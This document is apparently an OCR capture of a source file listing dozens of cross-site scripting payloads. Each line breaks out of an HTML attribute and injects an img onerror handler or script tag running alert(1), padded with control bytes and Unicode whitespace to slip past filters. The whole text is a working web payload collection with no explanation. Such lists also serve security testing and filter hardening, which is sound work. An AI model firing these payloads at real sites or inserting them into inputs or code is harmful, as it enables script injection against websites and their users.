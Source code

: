       `"'><img src=xxx:x \x0Aonerror=javascript:alert(1)>
      `"'><img src=xxx:x \x22onerror=javascript:alert(1)>
      `"'><img src=xxx:x \x0Bonerror=javascript:alert(1)>
      `"'><img src=xxx:x \x0Donerror=javascript:alert(1)>
      `"'><img src=xxx:x \x2Fonerror=javascript:alert(1)>
      `"'><img src=xxx:x \x09onerror=javascript:alert(1)>
      `"'><img src=xxx:x \x0Conerror=javascript:alert(1)>
      `"'><img src=xxx:x \x00onerror=javascript:alert(1)>
      `"'><img src=xxx:x \x27onerror=javascript:alert(1)>
      `"'><img src=xxx:x \x20onerror=javascript:alert(1)>
      "`'><script>\x3Bjavascript:alert(1)</script>
      "`'><script>\x0Djavascript:alert(1)</script>
      "`'><script>\xEF\xBB\xBFjavascript:alert(1)</script>
      "`'><script>\xE2\x80\x81javascript:alert(1)</script>
      "`'><script>\xE2\x80\x84javascript:alert(1)</script>
      "`'><script>\xE3\x80\x80javascript:alert(1)</script>
      "`'><script>\x09javascript:alert(1)</script>
      "`'><script>\xE2\x80\x89javascript:alert(1)</script>
      "`'><script>\xE2\x80\x85javascript:alert(1)</script>
      "`'><script>\xE2\x80\x88javascript:alert(1)</script>
      "`'><script>\x00javascript:alert(1)</script>
      "`'><script>\xE2\x80\xA8javascript:alert(1)</script>
      "`'><script>\xE2\x80\x8Ajavascript:alert(1)</script>
      "`'><script>\xE1\x9A\x80javascript:alert(1)</script>
      "`'><script>\x0Cjavascript:alert(1)</script>
      "`'><script>\x2Bjavascript:alert(1)</script>
      "`'><script>\xF0\x90\x96\x9Ajavascript:alert(1)</script>
      "`'><script>-javascript:alert(1)</script>
      "`'><script>\x0Ajavascript:alert(1)</script>
      "`'><script>\xE2\x80\xAFjavascript:alert(1)</script>
      "`'><script>\x7Ejavascript:alert(1)</script>
      "`'><script>\xE2\x80\x87javascript:alert(1)</script>
      "`'><script>\xE2\x81\x9Fjavascript:alert(1)</script>
      "`'><script>\xE2\x80\xA9javascript:alert(1)</script>
      "`'><script>\xC2\x85javascript:alert(1)</script>
      "`'><script>\xEF\xBF\xAEjavascript:alert(1)</script>
      "`'><script>\xE2\x80\x83javascript:alert(1)</script>
      "`'><script>\xE2\x80\x8Bjavascript:alert(1)</script>
      "`'><script>\xEF\xBF\xBEjavascript:alert(1)</script>
      "`'><script>\xE2\x80\x80javascript:alert(1)</script>
      "`'><script>\x21javascript:alert(1)</script>
      "`'><script>\xE2\x80\x82javascript:alert(1)</script>
      "`'><script>\xE2\x80\x86javascript:alert(1)</script>
      "`'><script>\xE1\xA0\x8Ejavascript:alert(1)</script>
      "`'><script>\x0Bjavascript:alert(1)</script>
      "`'><script>\x20javascript:alert(1)</script>
      "`'><script>\xC2\xA0javascript:alert(1)</script>
      "/><img/onerror=\x0Bjavascript:alert(1)\x0Bsrc=xxx:x />
      "/><img/onerror=\x22javascript:alert(1)\x22src=xxx:x />
      "/><img/onerror=\x09javascript:alert(1)\x09src=xxx:x />
      "/><img/onerror=\x27javascript:alert(1)\x27src=xxx:x />
      "/><img/onerror=\x0Ajavascript:alert(1)\x0Asrc=xxx:x />
      "/><img/onerror=\x0Cjavascript:alert(1)\x0Csrc=xxx:x />